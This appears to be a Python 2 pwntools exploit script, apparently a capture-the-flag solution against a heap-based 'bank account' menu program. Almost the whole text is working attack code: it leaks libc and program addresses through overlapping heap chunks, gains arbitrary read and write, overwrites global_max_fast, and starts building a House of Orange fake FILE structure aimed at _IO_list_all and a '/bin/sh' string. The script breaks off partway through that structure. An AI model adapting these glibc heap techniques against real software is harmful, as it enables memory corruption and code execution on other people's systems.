 ```python
gen_unsorted = create("3", 0x20, "1")
create("0" * 0x10 + chr((0x90 + 0x60) | 1), 0x20, "2")

for i in xrange(0,3):
	create("leak", 0x50, "consume 0x60 chunks")
	#take all 0x50, 0x30 will be allocated from top chunk

toleak = create("leak", 0x50, "to become leak here")

delete(gen_unsorted)
#unsorted bin contains 1 2 3 0x60, and one 0x30 fastbin

arb_rw = create("leak", 0x10, "A") #0x30, 1
struct_overlap = create("leak", 0x30, "A") #2, jmp out 3
libc_addr = u64(view(toleak)[1] + "\x00\x00") - UNSORTED_OFF
create("leak", 0x20, "empty bins, leak pie")
flag_addr = u64(view(toleak)[1] + "\x00\x00") # - 0x202010
print hex(libc_addr)
print hex(flag_addr)
#now bins empty

# edit_statement(struct_overlap, "H" * 0x10 + p64(flag_addr) + p64(0x10) + p64(libc_addr+e.symbols["__free_hook"]))
# edit_statement(arb_rw, p64(libc_addr + e.symbols["system"]))

delete(struct_overlap)
create("arb read", 0x30, "H" * 0x10 + p64(flag_addr) + p64(0x10) + p64(libc_addr+e.symbols["environ"]))
stack_addr = u64(view(arb_rw)[1] + "\x00\x00")
print hex(stack_addr)

delete(struct_overlap)
create("arb write", 0x30, "H" * 0x10 + p64(flag_addr) + p64(0xdeadbeef) + p64(libc_addr + GLOBAL_MAX_FAST)) #to test
edit_statement(arb_rw, "1") #1 will let scanf return 1
#change max_global_fast to 0

#house of orange(by rewriting title size)
sh.recvuntil("Enter title of bank account: ")
sh.send("orange")
sh.recvuntil("Enter size of your bank statement: ")
sh.send(str(0x20) + "\n")
slp()
sh.send("house of orange" + "\n")
sh.recvuntil("Account has been created at index ")
of_chunk = int(sh.recvuntil("\n"))
sh.recvuntil("5. View your bank status\n")
hso_chunk = create("hso", 0x50, "house of orange")
create("pad", 0x10, "pad")
delete(of_chunk)

create("0" * 0x10 + chr(0xC0 | 1), 0x50, 'A' * 0x20 + p64(0) + p64(0x31) + p64(flag_addr) + chr(0))

fake_file = p64(0)
fake_file += p64(0x61)
fake_file += p64(1)
fake_file += p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)
fake_file += p64(2) + p64(3)
fake_file += "\x00" * 8
fake_file += p64(libc_addr + next(e.search('/bin/sh\x00'))) #/bin/sh addr
fake_file += ((0xc0-0x40) / 8) * p64(flag_addr)
fake_file += p32(0) #mode
fake_file += (0xd8-0xc4) * "\x00"
```